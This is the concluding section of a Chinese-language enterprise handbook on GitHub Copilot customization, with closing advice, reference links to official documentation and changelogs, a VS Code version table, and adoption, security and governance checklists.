2. **紀律嚴明的安全審查習慣**——任何社群資源安裝前都先審查，而不是看到 star 數高就直接用（第 21 章）。
3. **漸進式的導入節奏**——從 Beginner 到 Enterprise 分階段推進，而不是一步到位（第 35-36 章）。
4. **持續查證的習慣**——這個生態系變化極快，三個月前寫的教學文件可能已經有術語過時、機制淘汰的風險，必須定期重新查證（第 29 章）。

本手冊示範的 12-Agent Team、4 個企業 Skill、Enterprise Plugin 等範例，都只是「起點」而非「終點」——它們是依 GitHub Copilot 官方驗證過的格式打造的**建議架構**，企業應依自己的技術堆疊與組織文化調整，而不是原封不動照抄。

> 從 Instructions 開始，逐步建立 Skills 與 Agents，最後才考慮 Plugins 與跨團隊分發——這個順序本身，就是本手冊最重要的一條建議。

---

## 40. References

### 40.1 awesome-copilot 相關

- [awesome-copilot GitHub Repository](https://github.com/github/awesome-copilot)
- [awesome-copilot 官方網站／Learning Hub](https://awesome-copilot.github.com/)
- [awesome-copilot `llms.txt`](https://awesome-copilot.github.com/llms.txt)
- [awesome-copilot `CONTRIBUTING.md`](https://raw.githubusercontent.com/github/awesome-copilot/main/CONTRIBUTING.md)
- [awesome-copilot `AGENTS.md`（Repository Structure、Pre-commit／Code Review Checklist、MCP 宣告規則）](https://raw.githubusercontent.com/github/awesome-copilot/main/AGENTS.md)
- [awesome-copilot `plugins/external.json`（External Plugin 真實登錄內容）](https://raw.githubusercontent.com/github/awesome-copilot/main/plugins/external.json)
- [Issue #1368：Track migration to marketplace published branch and main source branch](https://github.com/github/awesome-copilot/issues/1368)
- [Discussion #968：Guidance for submissions involving paid services](https://github.com/github/awesome-copilot/discussions/968)
- [awesome-copilot Repository metadata（GitHub API）](https://api.github.com/repos/github/awesome-copilot)
- [awesome-copilot Agent Skills 補充說明文件](https://github.com/github/awesome-copilot/blob/main/docs/README.skills.md)
- [Installing and Using Plugins（Learning Hub）](https://awesome-copilot.github.com/learning-hub/installing-and-using-plugins/)
- [Working with Canvas Extensions（Learning Hub）](https://awesome-copilot.github.com/learning-hub/working-with-canvas-extensions/)
- [GitHub Copilot Terminology Glossary（Learning Hub）](https://awesome-copilot.github.com/learning-hub/github-copilot-terminology-glossary/)
- [Advanced GitHub Copilot CLI 課程（Learning Hub）](https://awesome-copilot.github.com/learning-hub/advanced-copilot-cli/)
- [Hands-on with GitHub Copilot's agents（四種介面分軌 Workshop）](https://awesome-copilot.github.com/learning-hub/copilot-workshops/)

### 40.2 GitHub Copilot 官方文件

- [GitHub Copilot 文件首頁](https://docs.github.com/en/copilot)
- [Response Customization 概念頁](https://docs.github.com/en/copilot/concepts/response-customization)
- [Custom Instructions 支援矩陣](https://docs.github.com/en/copilot/reference/custom-instructions-support)
- [About Agent Skills](https://docs.github.com/en/copilot/concepts/agents/about-agent-skills)
- [Hooks（Customize agent workflows with hooks）](https://docs.github.com/en/copilot/how-tos/use-copilot-agents/coding-agent/use-hooks)
- [About Plugins](https://docs.github.com/en/copilot/concepts/agents/about-plugins)
- [Extend Copilot Chat with MCP](https://docs.github.com/en/copilot/how-tos/provide-context/use-mcp/extend-copilot-chat-with-mcp)
- [About GitHub Copilot cloud agent](https://docs.github.com/copilot/concepts/agents/coding-agent/about-coding-agent)
- [About GitHub Copilot CLI](https://docs.github.com/en/copilot/concepts/agents/about-copilot-cli)
- [Copilot CLI Custom Instructions](https://docs.github.com/en/copilot/how-tos/copilot-cli/customize-copilot/add-custom-instructions)
- [Finding and Installing Plugins for Copilot CLI](https://docs.github.com/en/copilot/how-tos/copilot-cli/customize-copilot/plugins-finding-installing)
- [Copilot CLI Plugin Reference（完整子指令清單）](https://docs.github.com/en/copilot/reference/copilot-cli-reference/cli-plugin-reference)
- [Hooks Reference（十四個生命週期事件、matcher、exit code 語意、載入優先序）](https://docs.github.com/en/copilot/reference/hooks-reference)
- [Enterprise Managed Settings（`managed-settings.json` 十大鍵、優先序、sandbox／userPolicy、MCP allowlist）](https://docs.github.com/en/copilot/reference/enterprise-managed-settings)
- [Customization Cheat Sheet（功能、位置、使用方式與 IDE 支援矩陣）](https://docs.github.com/en/copilot/reference/customization-cheat-sheet)
- [以 GitHub CLI 新增 Skills](https://docs.github.com/en/copilot/how-tos/use-copilot-agents/coding-agent/add-skills)

### 40.3 VS Code 官方文件

- [Prompt Files](https://code.visualstudio.com/docs/agent-customization/prompt-files)
- [Custom Agents（含 `.chatmode.md` → `.agent.md` 遷移說明）](https://code.visualstudio.com/docs/agent-customization/custom-agents)
- [Copilot Agents 總覽](https://code.visualstudio.com/docs/copilot/agents/overview)
- [Agent Customization Overview（含 Agent Customizations 編輯器、使用者客製化遷移、Monorepo 設定、評測擴充套件）](https://code.visualstudio.com/docs/agent-customization/overview)
- [Customization 概念頁（客製化類型比較表、模型驅動 vs 確定性）](https://code.visualstudio.com/docs/agents/concepts/customization)
- [Agent Harnesses（Session Target、Local／Copilot／Claude／Codex、Code Isolation、Agent Host）](https://code.visualstudio.com/docs/agents/concepts/agent-harnesses)
- [Trust and Safety（五層控制、信任邊界、Agent Sandboxing）](https://code.visualstudio.com/docs/agents/concepts/trust-and-safety)
- [Copilot Security（權限層級：Default Approvals／Assisted／Bypass／Autopilot）](https://code.visualstudio.com/docs/copilot/security)
- [Configure AI settings for your organization（企業政策、Agent 網路過濾）](https://code.visualstudio.com/docs/enterprise/ai-settings)
- [VS Code Agent Host 架構文件](https://code.visualstudio.com/docs/agents/concepts/agent-host)
- [Waza 評測框架（microsoft/waza）](https://github.com/microsoft/waza)

### 40.4 GitHub Changelog

- [Copilot Extensions（GitHub App）日落公告](https://github.blog/changelog/2025-09-24-deprecate-github-copilot-extensions-github-apps/)
- [Copilot coding agent → cloud agent 更名首次公告](https://github.blog/changelog/2026-04-01-research-plan-and-code-with-copilot-cloud-agent/)
- [Copilot cloud agent 更名相關佐證（Usage Metrics API）](https://github.blog/changelog/2026-04-23-copilot-cloud-agent-fields-added-to-usage-metrics/)
- [Agent Skills GA（2025-12-18）](https://github.blog/changelog/2025-12-18-github-copilot-now-supports-agent-skills/)
- [Copilot CLI GA（2026-02-25）](https://github.blog/changelog/2026-02-25-github-copilot-cli-is-now-generally-available/)
- [Agent Plugins 1.0 GA（2026-08-12）](https://github.blog/changelog/2026-08-12-agent-plugins-1-0-in-vs-code-copilot-cli-and-the-copilot-app/)
- [Copilot Code Review：Agent Skills／MCP GA（2026-07-29）](https://github.blog/changelog/2026-07-29-copilot-code-review-agent-skills-and-mcp-now-generally-available/)

### 40.5 開放規範與跨產業標準

- [Agent Plugins 1.0 官方規範 Repository](https://github.com/agentplugins/agent-plugins-spec)
- [Agent Plugins 1.0 官方 Schema](https://agent-plugins.org/schemas/1.0.0/plugin.schema.json)
- [AGENTS.md 官方網站](https://agents.md/)
- [Linux Foundation 宣布成立 Agentic AI Foundation（AGENTS.md／MCP／goose 由 OpenAI 與 Anthropic 共同捐贈）](https://www.linuxfoundation.org/press/linux-foundation-announces-the-formation-of-the-agentic-ai-foundation)
- [Agent Skills 開放規範](https://agentskills.io/specification)
- [OWASP Top 10 for LLM Applications](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
- [OWASP Agentic Security Initiative（對應第 2.9 節 `agent-owasp-compliance` Skill 所依據的 ASI Top 10）](https://genai.owasp.org/initiatives/#agenticsecurity)

### 40.6 2026 年資安威脅情資（呼應第 20.4 節）

- [SecurityWeek：Claude Code, Gemini CLI, GitHub Copilot Agents Vulnerable to Prompt Injection via Comments](https://www.securityweek.com/claude-code-gemini-cli-github-copilot-agents-vulnerable-to-prompt-injection-via-comments/)
- [HiddenLayer：The Next AI Supply Chain Risk: Malicious Skills in Agentic AI](https://www.hiddenlayer.com/research/the-next-ai-supply-chain-risk-malicious-skills-in-agentic-ai)
- [Rescana：GitHub Agentic Workflows Prompt Injection 主動攻擊警示](https://www.rescana.com/post/active-exploitation-alert-prompt-injection-vulnerability-in-github-agentic-workflows-threatens-software-supply-chain-sec)

### 40.7 技術堆疊版本參考（呼應本手冊情境範例引用的版本聲明）

> ⚠️ 以下為本手冊技術情境範例（Java／Spring Boot／Vue／Node.js／PowerShell）所引用版本的官方出處指引，供讀者自行查證當下最新版本狀態，本手冊不逐一列出各版本詳細變更內容。

- [OpenJDK 官方發行頁（可查證各 JDK 版本 GA 狀態與新特性）](https://openjdk.org/projects/jdk)
- [Spring Boot 官方 Release Notes／Migration Guide](https://github.com/spring-projects/spring-boot/wiki)
- [Vue.js 官方文件](https://vuejs.org/)
- [Node.js 官方 Release 排程（含各版本支援週期）](https://nodejs.org/en/about/previous-releases)
- [PowerShell 官方 Release Notes](https://learn.microsoft.com/en-us/powershell/scripting/whats-new/what-s-new-in-powershell-70)

### 40.8 VS Code Release Notes 版本對照（第四版新增）

> 本小節的目的不是「列出所有新功能」，而是讓企業在制定**最低版本要求**時有依據。很多「為什麼同事有我沒有」的問題，本質上是 VS Code 版本不一致。下表僅收錄**本手冊實際引用且已查證**的項目。

| 版本 | 功能 | 本手冊對應章節 |
|---|---|---|
| **v1.123** | Enterprise Plugin Policies 引入：`chat.plugins.enabledPlugins`、`chat.plugins.extraMarketplaces`、`chat.plugins.strictMarketplaces` | 20.7.3 |
| **v1.124** | Autopilot 預設啟用；上述三個 Plugin 政策設定鍵正式可透過 Copilot enterprise settings 檔或現有 MDM 方案派送 | 20.7.1、20.7.3 |
| **v1.127** | 終端機指令 Sandboxing 於 macOS／Linux 推出（封鎖網路存取、限制檔案系統存取）；`BrowserChatTools` 與 `ChatAgentNetworkFilter` 企業政策；`/troubleshoot` skill | 20.6、20.7.2、27.2 |
| **v1.130** | Agent Host（AHP）opt-in：`chat.agentHost.enabled`；Worktree 隱離擴及全部 harness（Claude、Codex session 也跑在 Git worktree） | 6.7、10 |

> ⚠️ **兩項查證說明（請勿誤引）**：
>
> 1. 先前流傳的「**v1.135 將 Agent Sandboxing rollout 由 50% 回退至 0%**」一說，本手冊在 2026-08-31 複查時**未能在官方 Release Notes 中找到佐證**（官方目前沒有找到足夠資料確認此說法）。可確認的只有：Sandboxing 需以 `chat.agent.sandbox.enabled` **手動啟用**。請以「預設未啟用」作為企業規劃前提，不要假設它會自動生效。
> 2. 「Prompt 檔遷移為 Skill」的設定鍵 `chat.customizations.promptMigration.enabled` 同樣**未能查證**（官方目前沒有找到足夠資料確認此功能）。遷移行為本身見第 9.6 節，但請勿在企業設定檔中寫入此鍵。

**企業建議做法（建議架構）**：在企業內部標準中明訂一個 **VS Code 最低版本**，並在第 27 章 Troubleshooting 的第一步加上「確認 VS Code 版本是否達到最低要求」。這能排掉相當比例的「機制沒生效」工單。

> 本手冊所有 URL 均為查證當下（2026-08-27 初版／2026-08-28 第二、三版複查／**2026-08-31 第四版全面複查**）實際存在且可存取之官方頁面。由於本生態系變動快速，讀者使用本手冊時應重新確認上列連結內容是否已更新，若發現內容與本手冊描述不符，請以官方最新文件為準。

---

## 41. 全書 Checklist 總覽

### 41.1 安裝與導入 Checklist

- [ ] 已理解 awesome-copilot 是社群精選集，非官方規格文件（第 2 章）
- [ ] 已完成 Copilot CLI／VS Code 安裝與登入（第 26 章 Tutorial 1）
- [ ] 已依五層架構模型（第 3 章）規劃導入順序：Instructions → Skills/Agents → Hooks → Plugins
- [ ] 已依第 22 章六階段模型（Awareness → Pilot → Standardization → Platform → Governance → Continuous Improvement）排定時程
- [ ] 已完成 30/60/90 天導入計畫的 Day 1-30 階段（第 36.1 節）

### 41.2 安全 Checklist

- [ ] 任何第三方資源安裝前，已完整跑過第 21.1 節安全評估 Checklist
- [ ] 已依第 21.2 節為每個資源評定 Risk Level（LOW／MEDIUM／HIGH／CRITICAL）
- [ ] MCP 設定檔中不含任何硬編碼 Secret（第 14 章）
- [ ] 審查型 Agent（Security／Code Review）已確認為唯讀，無法修改程式碼（第 9 章）
- [ ] Hook／Plugin 腳本已比照生產環境程式碼標準審查（第 13、20 章）
- [ ] 已評估是否在 macOS／Linux 開發機器啟用 Agent Sandboxing，作為模型被攻陷後的最後一道防線（第 20.6 節）
- [ ] 已釐清工作區、發行者、MCP Server、網域四種信任邊界的授權與撤銷方式（第 14.7、20.6 節）

### 41.3 治理 Checklist

- [ ] 已建立 Approved Agents／Skills／Plugins／MCP 清單（第 20 章）
- [ ] 客製化資源已納入 Git 版控與標準 PR 流程（第 28 章）
- [ ] 已建立 Resource Lifecycle（Draft → Review → Test → Approve → Publish → Monitor → Update → Deprecate → Remove）（第 28.2 節）
- [ ] 已建立至少 5 項 KPI 量測機制，非僅以程式碼產出量評估（第 30 章）
- [ ] 已排定每季一次的 Upgrade Playbook 執行（第 29 章）

### 41.4 新人快速上手 Checklist

- [ ] 已閱讀本手冊 Part I（第 1-5 章），理解核心概念與元件差異
- [ ] 已依第 26 章 Tutorial 1-11 完成基礎操作練習
- [ ] 已知道遇到問題時查閱第 27 章 Troubleshooting 表，並依 27.2 節標準診斷流程從 Session Target 與 Agent Debug Panel 查起
- [ ] 已知道任何安裝行為前，先查第 21 章 Security Checklist
- [ ] 已知道本手冊內容有時效性，需定期核對第 40 章 References 中的官方連結是否有更新
- [ ] 已知道自己目前使用的 Session Target（harness、執行環境、agent role、模型）如何切換與確認（第 6.7 節）

---

*本手冊查證日期：2026-08-27（初版）／2026-08-28（第二、三版複查與增修）。GitHub Copilot 客製化生態系變動快速，請定期依第 29 章 Upgrade Playbook 重新查證本手冊內容。*

